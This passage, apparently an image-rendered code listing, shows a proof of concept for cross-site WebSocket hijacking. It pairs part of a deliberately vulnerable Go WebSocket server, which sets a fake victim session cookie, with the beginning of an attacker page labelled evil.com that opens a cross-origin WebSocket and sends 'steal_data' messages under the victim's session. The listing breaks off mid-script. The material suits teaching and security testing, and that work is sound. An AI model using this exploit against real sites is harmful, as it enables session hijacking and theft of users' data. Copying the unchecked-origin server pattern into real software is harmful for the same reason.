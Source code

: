 ```Go
        if err := conn.WriteMessage(mt, response); err!= nil {
            log.Println("Write error:", err)
            break
        }
    }
}

func main() {
    http.HandleFunc("/ws", wsHandler)
    // Dummy login to set a cookie for PoC purposes
    http.HandleFunc("/login", func(w http.ResponseWriter, r *http.Request) {
        cookie := http.Cookie{Name: "session_id", Value: "victim_session_123", Path: "/"}
        http.SetCookie(w, &cookie)
        w.Write(byte("Logged in successfully! Now try the PoC."))
    })
    log.Println("Vulnerable server starting on :8080 (simulate vulnerable.com)")
    // For wss, you'd use ListenAndServeTLS with certs. For simplicity, using http.
    // Change WebSocket URL in exploit.html to ws://localhost:8080/ws if running this locally.
    log.Fatal(http.ListenAndServe(":8080", nil))
}
```

**2. Attacker's Page (`evil.com/exploit.html`):**

```HTML

<!DOCTYPE **html**>
<html>
<head>
    <title>CSWH PoC - Evil Page</title>
</head>
<body>
    <h1>You are on evil.com! Processing...</h1>
    <div id="output"></div>

    <script>
        document.getElementById('output').innerHTML += '<p>Attempting to connect to vulnerable WebSocket...</p>';

        // Target the vulnerable WebSocket endpoint.
        // For local testing with the Go server above, use 'ws://localhost:8080/ws'.
        // In a real scenario, this would be 'wss://vulnerable.com/ws'.
        var wsUrl = 'ws://localhost:8080/ws'; // Adjust if vulnerable.com is real and uses wss

        var ws = new WebSocket(wsUrl);

        ws.onopen = function() {
            let msg = 'PoC: Cross-origin WebSocket connection to ' + wsUrl + ' established successfully!';
            console.log(msg);
            document.getElementById('output').innerHTML += '<p style="color:green;">' + msg + '</p>';

            // Attacker can now send messages as the victim.
            // The server will process these using the victim's session cookie.
            let maliciousMessage = JSON.stringify({
                action: "steal_data",
                details: "Requesting user profile"
            });
            ws.send(maliciousMessage);
            document.getElementById('output').innerHTML += '<p>PoC: Sent malicious message: ' + maliciousMessage + '</p>';

            let anotherMaliciousMessage = JSON.stringify({
```
